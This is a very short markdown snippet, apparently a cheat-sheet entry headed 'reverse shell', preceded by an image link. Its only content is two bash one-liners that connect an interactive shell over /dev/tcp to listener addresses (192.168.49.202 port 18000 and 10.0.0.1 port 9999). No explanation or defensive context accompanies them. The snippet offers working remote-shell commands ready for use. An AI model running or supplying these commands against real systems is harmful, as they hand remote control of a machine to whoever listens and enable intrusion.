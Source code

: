 ## reverse shell

```
/bin/bash -l > /dev/tcp/192.168.49.202/18000 0<&1 2>&1
```
```
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
```

